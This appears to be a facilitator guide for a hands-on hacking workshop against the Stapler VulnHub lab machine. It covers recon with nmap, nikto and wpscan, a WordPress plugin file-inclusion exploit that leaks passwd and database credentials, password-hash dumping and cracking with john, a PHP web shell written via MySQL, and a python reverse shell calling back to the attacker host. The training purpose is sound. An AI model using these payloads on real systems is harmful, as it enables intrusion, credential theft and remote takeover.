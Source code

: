 ```yaml
---
author: bhero
topic: dojo
---
```


Facilitator guide

# Part 1 - 30 - 45 min

Objective: Help everyone get set up

## Tasks
1. Explain the dojo
2. Explain the network - draw diagram
3. Assist in setup

No cheat sheets here, all the notes are in the exercise file


# Part 2 - 30 - 45 min

Objective: Get everyone to be able to scan the target

## Tasks
1. Explain the process as an overview - draw diagram 
2. Intorduce the recon/scanning concept
3. Introduce nmap and let attendees follow the guide
4. force a recap after 30/45 min

# Part 3 - 60 min

Objective: Complete analysis

1. encourage google
2. answer questions on the services
3. demo manual interactions
4. Introduce reverse shells - draw diagram
5. demo hydra syntax

# Part 4 - 30 min

Objective: get remote code execution

## Tasks

1. Demo a vector from the walkthrough


key notes before attack - the plugin is vulnerable to LFI
This allows access to root dB creds, with this we can get full shell access.

This section varies with skill of audience, many folks may just want a demo others hints.
Prefeered vector is progromatic exploit as audience are devs

can also steal/guess username and break password - cover how to do this via hydra tutorial

explain there is way in with a code vulnerability, show exploit dB and searchsploit and rev shells

Attack the webserver via wordpress upload.
get the nikto scan: (set the var STAPLER_IP)

```
nikto -h https://$STAPLER_IP:12380/blogblog/ > HTTPSblogblog.txt
```

start scripts to identify the wp_users and the plugins:

```
wpscan --url https://$STAPLER_IP:12380/blogblog/ --enumerate u --disable-tls-checks -o wpscan_users.txt
```

```
wpscan --url https://$STAPLER_IP:12380/blogblog/ --enumerate ap --disable-tls-checks --plugins-detection aggressive -o wpscan_plugins.txt
```

while running show the dir listing issue and visit the plugins url: 
https://192.168.56.104:12380/blogblog/wp-content/plugins/

poke about - highlight the uploads:
https://192.168.56.104:12380/blogblog/wp-content/uploads/

mention plugins are usually the weakness

use searchsploit:

```
searchsploit wordpress plugin video advanced
```

read in terminal

```
less /usr/share/exploitdb/exploits/php/webapps/39646.py 
```

explain that it forces an upload of an 'image' because $thumb not secure, no file type check implemented. - check the inputs would fix this.

a POC:
https://192.168.56.104:12380/blogblog/wp-admin/admin-ajax.php?action=ave_publishPost&title=random&short=1&term=1&thumb=/etc/passwd`

go to uploads and view the picture
explain it is text not jpg, so we curl

example:

```
curl -k https://$STAPLER_IP:12380/blogblog/wp-content/uploads/108293608.jpeg
```

now we check the wp-config because it has dB access details:
https://192.168.56.104:12380/blogblog/wp-admin/admin-ajax.php?action=ave_publishPost&title=random&short=1&term=1&thumb=../wp-config.php


get mysql root password onliner example:

curl -k https://$STAPLER_IP:12380/blogblog/wp-content/uploads/1006632345.jpeg

login and get passwords

```
mysql -h $STAPLER_IP -u root -pplbkac 
use wordpress;
select user_login,user_pass from wp_users;
```

close the connection and get the editied file: [wp_users.txt](/assets/vulnhub_stuff/stapler/wp_users.txt)

break the passwords with:

john wp_users.txt -wordlist=/usr/share/wordlists/rockyou.txt
this would let you login, but we all use super big passwords right?

so we won't wait, lets revisit the exploit to get the server root of the webserver via default config, explain apache config

https://192.168.56.104:12380/blogblog/wp-admin/admin-ajax.php?action=ave_publishPost&title=random&short=1&term=1&thumb=/etc/apache2/sites-enabled/000-default.conf

curl it to see DocumentRoot /var/www/https can be enumerated from /etc/apache2/sites-enabled/000-default.conf

login again and pop a wbshell in

```
mysql -h $STAPLER_IP -u root -pplbkac 
select "<?php echo shell_exec($_GET['cmd']);?>" into outfile '/var/www/https/blogblog/wp-content/uploads/mysql-shell.php';
```

check it works example:

https://192.168.56.105:12380/blogblog/wp-content/uploads/mysql-shell.php?cmd=ls


time to get a shell:
set listner on port 21 
then go here:
https://192.168.56.104:12380/blogblog/wp-content/uploads/system-webshell.php?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.1",21));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

do stuff, show execution!

spawn bash:
``` sh
python -c 'import pty; pty.spawn("/bin/bash")'
```

do stuff, show execution!

ctrl^Z it and get a ptty:
```
stty raw -echo
fg
```

do stuff, show execution!


> This is the biggest section of the dojo. Recap here

# Part 5

Objective: get root

## Tasks

1. Demo all the ways to get root - show the walkthrough
2. wrap up
3. feedback

## Recommended Resources

tutorial site for each manual step

next up [Attacking](Stapler-Dojo-Part-4.html)
